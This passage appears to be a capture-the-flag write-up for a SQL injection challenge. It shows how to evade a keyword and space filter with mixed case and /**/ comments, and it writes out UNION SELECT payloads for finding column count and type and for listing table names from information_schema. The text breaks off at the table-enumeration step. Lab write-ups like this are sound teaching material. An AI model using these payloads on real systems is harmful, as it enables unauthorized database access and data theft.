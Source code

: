 ![get grade](./SQLi2_get_grade.png)
The keyword can be bypassed using mixed-case and the space can be bypassed using `/**/`.
But we only get a grade, the flag is not exposed.

2. **Determine Column Count and Type**:

- Find Column Count:
    - Try `'UnIoN/**/SeLECT/**/null--` (1 column)
    - Try `'UnIoN/**/SeLECT/**/null,null--` (2 columns)
    - Keep adding null until no error occurs
    - And you can find that the column count is 2

- Find Column Type:
    - Replace null with values of different types:
    - 1 (integer)
    - 'a' (string)
    - true (boolean)
    - The types must match the original query's columns
    - Example: `'UnIoN/**/SeLECT/**/1,'test'--`
    - And you can find that the column type is number, string

3. **Extract Table Names**:
Use:

 `'UnIoN/**/SeLeCt/**/1,table_name/**/FrOm/**/information_schema.tables/**/WhErE/**/table_schema=current_schema()--` to get the table names:
